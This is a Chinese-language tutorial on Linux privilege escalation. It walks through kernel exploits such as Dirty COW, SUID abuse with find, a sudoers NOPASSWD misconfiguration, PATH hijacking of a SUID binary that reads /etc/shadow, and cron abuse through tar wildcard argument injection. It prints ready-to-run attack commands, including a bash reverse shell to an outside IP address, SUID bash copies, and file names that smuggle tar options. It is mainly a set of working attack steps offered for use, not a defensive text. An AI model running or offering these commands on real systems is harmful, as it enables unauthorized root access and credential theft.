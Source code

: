 # Linux提权方法

## 内核提权

1. 常规提权方法

查看Linux内核版本

```bash
    uname -a
```

使用searchsploit搜索对应exp，并下载c文件进行编译：

```bash
    searchsploit ubunt 4.4.0
    searchsploit -m linux/local/45010.c
    gcc 45010.c -o 45010
```

在meterpreter下将编译好的exp上传到目标tmp目录下，赋予执行权限，可以看到执行后变为root权限

2. 赃牛提权

Linux内核的内存子系统在处理写时拷贝(Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞

影响版本：Linux kernel >= 2.6.22（2007年发行，到2016年10月18日才修复）

```bash
    uname -a
    cd CVE-2016-5195-master/
    make
    ./dcow -s
```

## suid提权

suid可以让文件调用者暂时获得文件拥有者的权限，suid提权的思路让普通用户运行root用户所拥有的suid文件，从而达到提权的目的。

可用于提权的文件列表：
    Nmap
    Vim
    find
    Bash
    More
    Less
    Nano
    cp

查找suid文件命令：

```bash
    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;
```

使用find执行命令whoami发现是root
`find 1.txt -exec whoami \`

使用find执行反弹shell命令（注意加上-p参数，否则反弹回来的可能是低权限用户shell）：
`find 1.txt -exec bash -i >& /dev/tcp/192.168.197.149/4444 0>&1 -p \`

## sudo 提权

普通用户一般无法使用root用户命令，使用sudo命令可以让普通用户拥有root权限，但是一般都需要输入用户的密码。管理员为了运营方便可能会对sudoer文件进行不合理的配置，使普通用户不需要输入密码就可以使用sudo命令，从而导致权限提升的问题产生。
配置/etc/sudoers文件，在文件中加入：
`ubuntu ALL=(ALL:ALL) NOPASSWD:ALL`

配置完成后，普通用户使用sudo无需输入密码即可执行root命令：

## 环境变量提权

PATH是Linux和类Unix操作系统中的环境变量，它指定可执行程序的所有bin和sbin存储目录。当用户在终端上运行任何命令时，它会向shell发送请求以在PATH变量中搜索可执行文件来响应用户执行的命令。

```bash
    echo $PATH   #查看环境变量
```

演示：

假设管理员用户在/home/test目录下创建了一个demo.c文件，内容如下，执行查看shadow文件命令，setuid 规定了其运行用户，以root权限进行编译和权限设置：

```c
    #include<unistd.h>
    void main()
    {
        setuid(0);
        setgid(0);
        system("cat /etc/shadow");
    }
```

```bash
    gcc demo.c -o demo
    chmod u+s demo
```

执行demo文件即执行cat /etc/shadow命令

现在有一个攻击者拿到普通用户权限，首先执行如下命令查找具有suid的文件，发现demo
`find / -perm -u=s -type f 2>/dev/null`

接下来劫持环境变量进行提权：

```bash
    cd /tmp

    echo "/bin/bash" > cat   #创建名为cat的文件，内容为/bin/bash

    cat cat

    chmod 777 cat            #赋予777权限

    export PATH=/tmp:$PATH     #将tmp目录添加环境变量

    echo $PATH
```

最后执行demo，在执行cat命令时，从环境变量中查找，按查找顺序优先查找/tmp目录，而/tmp目录下的cat内容为/bin/bash，所以执行的命令从cat /etc/shadow就变成了/bin/bash /etc/shadow，从而达到提权的目的。

## Cronjobs提权

1. 通配符提权

查看定时任务，发现一个以root权限执行的任务test2.sh，查看test2.sh，发现任务的工作为每分钟执行将/home/ubuntu下的所有内容打包为backup.tar.gz并放置在/tmp目录下（通配符*代表目录下的所有文件）。
`cat /etc/crontab #查看定时任务`

在/home/ubuntu目录下创建三个文件：

```bash
    echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > test.sh

    echo "" > --checkpoint=1    #文件名为--checkpoint=1

    echo "" > "--checkpoint-action=exec=sh test.sh"

    #文件名为--checkpoint-action=exec=sh test.sh
```

当定时任务触发后，使用了通配符*对整个文件夹进行打包，系统真正执行打包时，将目录下的文件一个一个传参给通配符执行打包操作，而在打包–checkpoint=1和–checkpoint-action=exec=sh test.sh时相当于执行如下命令：
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh test.sh`
而–checkpoint和–checkpoint-action正好时tar的参数，此处会被当作参数执行而非文件名打包。–checkpoint-action=exec=sh test.sh为执行test.sh文件，test.sh文件内容为复制bash到tmp目录并赋予suid，即可达到提权的目的：

2. 文件重写提权

由于管理员对定时文件权限错误分配而导致普通用户具有写权限，从而达到提权。
普通用户查看定时任务，发现datetest.sh为777权限而且为root用户

普通用户可在datetest.sh中写入命令，将bash复制到tmp并赋予suid：
`"cp /bin/bash /tmp/bash;chmod +s /tmp/bash" >> /usr/local/bin/datetest.sh`
